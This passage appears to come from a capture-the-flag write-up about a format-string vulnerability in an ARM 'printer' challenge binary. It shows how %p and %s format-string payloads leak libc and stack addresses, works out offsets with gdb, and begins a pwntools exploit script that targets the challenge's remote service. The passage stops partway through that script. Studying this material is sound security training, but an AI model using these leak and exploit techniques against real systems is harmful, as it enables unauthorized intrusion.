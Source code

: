 `0d` is a libc leak.  We'll need this to get the location of `system`.

`0f` is a pointer to a location down stack that is not too far down (specifically is the _environment_--you can count of this when your format-string is not in stack as a way to get addresses on the stack).

To find the offset, just put in `%10$p` (just a guess) as the `Path` and see what is printed, then match it to the stack; to get started `c` in the gdb session, then create a job, and the view jobs:

```
> 3
[!] Name of job: leak
[!] Path: %10$p
> 1
[*] Current jobs:
	0 - /hemidyne/tps_report.rtf 0xff64b000 1628477598
	1 - leak 0xfffef604
```

> After each line is printed, you'll have a `c` in the debug session to continue.

The `leak` `0xfffef604` we got from passing `10` as the format-string parameter is at line `06` above in the stack dump.  So we just need to add `4` to any line number to compute the offsets.  That puts the letter leak at `13`, the libc leak at `17`, and the pointer we need at `19`.

> If you want to leak that letter now, well go ahead and create a job with `Path` `%13$s`, or just get both flags with the shell.

There's one more offset we need to find and that's what offset `19` points to:

```
0f:003c│     0xfffef4b4 —▸ 0xfffef604 —▸ 0xfffef734 ◂— './printer'
```

To compute:

```
pwndbg> p/d (0xfffef604 - 0xfffef4b4) / 4 + 19
$0 = 103
```

`103` it is.

Analysis complete.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./printer')

if args.REMOTE:
    p = remote('pwnremote.threatsims.com', 9100)
    libc = ELF('./arm_libc.so.6')
else:
    if args.D:
        p = process('qemu-arm -g 9000 -L /usr/arm-linux-gnueabi ./printer'.split())
    else:
        p = process('qemu-arm -L /usr/arm-linux-gnueabi ./printer'.split())
    libc = ELF('/usr/arm-linux-gnueabi/lib/libc-2.31.so')
```
